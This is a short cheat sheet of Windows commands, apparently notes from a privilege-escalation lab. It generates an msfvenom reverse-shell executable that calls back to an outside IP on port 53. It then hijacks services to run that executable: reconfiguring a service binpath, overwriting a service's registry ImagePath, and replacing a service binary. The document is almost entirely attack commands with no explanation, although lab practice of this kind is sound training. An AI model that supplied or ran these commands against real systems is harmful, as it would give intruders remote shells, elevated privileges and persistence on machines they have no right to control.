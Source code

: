 ## Service used as persistence 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
net start daclsvc
## Overwrite known good service 
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
## Replace binary of service 
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y 